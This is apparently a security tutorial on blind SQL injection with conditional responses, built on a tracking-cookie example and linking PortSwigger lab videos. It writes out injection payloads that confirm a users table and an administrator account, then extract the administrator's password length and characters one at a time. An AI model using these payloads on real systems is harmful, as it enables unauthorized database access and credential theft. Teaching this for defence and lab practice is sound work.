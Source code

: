 Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
Which the application process and uses a SQL query to determine whether this is a known user:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
While this query is vulnerable to SQL Injection, the results are not returned to the user. However, the application does behave differently depending on whether the query returns any data. For example, submitting a recognized `TrackingId` will return a "Welcome back" message in the response.

This type of behavior is enough to be able to exploit blind SQL injection. You can retrieve information by triggering different responses depending on an injected condition.

Using the example above, suppose that the two following requests are sent in turn:
```txt
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='1
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4' AND '1'='2
```
- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
## Example Exploit
Another example, suppose you want to find out if the `users` table does exists and if there is a user account called `Administrator`.
1. You can do this by sending the following input:
```txt
...xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.

2. Now we can change the payload to:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Verify that the condition is true, confirming that there is a user called `administrator`.
## Example Exploit Continuation
You can also use this technique to find out the password of the user called `administrator` by sending a series of inputs to test the password length:
```txt
...xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When the condition stops being true (i.e when the "Welcome back" message disappears), we have determined the length of the password.

1. We can now then do use the same technique to find out the password one character at a time:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
Verify that the condition is true, confirming that the first password character is greater than `m`.

2. Next send the following input:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
Verify that the condition is not true, confirming that the first password character is not greater than `s`.

3. Eventually, the following input returns a "Welcome back" message, thereby confirming that the first character is `s`:
```txt
...xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
## Example from PortSwigger Web Academy
The video below uses the Cluster Bomb attack type

[![SQL Injection - Lab #11 Blind SQL injection with conditional responses](https://img.youtube.com/vi/LBG_n9fr8sM/0.jpg)](https://www.youtube.com/watch?v=LBG_n9fr8sM)

The video below uses the Sniper attack type and manual brute forcing

[![Blind SQL injection with conditional responses (Video solution, Audio)](https://img.youtube.com/vi/M5Ko7F1_co4/0.jpg)](https://www.youtube.com/watch?v=M5Ko7F1_co4)